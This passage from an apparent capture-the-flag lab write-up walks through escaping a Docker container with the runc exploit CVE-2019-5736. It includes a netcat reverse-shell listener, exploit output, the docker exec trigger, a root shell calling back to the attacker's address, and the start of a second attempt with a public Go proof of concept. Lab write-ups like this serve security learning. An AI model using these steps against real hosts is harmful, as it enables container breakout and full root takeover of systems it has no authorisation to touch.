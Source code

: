 At this point, make sure to start a netcat listener on the target machine. The default port for the exploit is `4455` - but you can change it. We should be good-to-go, and should be able to run `pwn.sh`. 

```none
root@60d1b1c6f841:/opt/webapp/rev# bash pwn.sh 
starting exploit
Successfuly opened /proc/12055/exe at fd 4
/proc/self/fd/4
Successfully openned runc binary as WRONLY
Payload deployed
starting exploit
Successfuly opened /proc/15581/exe at fd 4
/proc/self/fd/4
Successfully openned runc binary as WRONLY
Payload deployed
```

After the payload is deployed, trigger the reverse shell by entering the container using `sh`.

```none
sudo /usr/bin/docker exec -it webapp-dev01 /bin/sh
```

After running the command above, should get access to a `root` shell.

```none
└─$ nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.10.14.127] from (UNKNOWN) [10.129.192.14] 42910
sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
# wc -c /root/root.txt
33 /root/root.txt
```

I had a little trouble with this exploit. It didn't work the first few times, and I had to reset the machine. After a little tinkering I got it running - but with a very short shell lifetime. Since `/bin/sh` is overwritten in the exploit, remember you can enter the container again using `/bin/bash` too!

## Privesc Alternative: `noah` to `root`

After not getting a stable shell, decided to try another exploit. When searching for `CVE-2019-5736 github` I found the [CVE-2019-5736-PoC](https://github.com/Frichetten/CVE-2019-5736-PoC) repo, which was written in Golang. After some more research, I found an article on HackTricks on the same [Runc exploit (CVE-2019-5736)](https://book.hacktricks.xyz/linux-unix/privilege-escalation/docker-breakout#runc-exploit-cve-2019-5736). This article also linked to the same [exploit written in Go](https://github.com/Frichetten/CVE-2019-5736-PoC/blob/master/main.go). Thought I might try it out.

My install of Kali doesn't come with Golang, so started by installed it from the package repository.

```none
sudo apt install golang-go
```
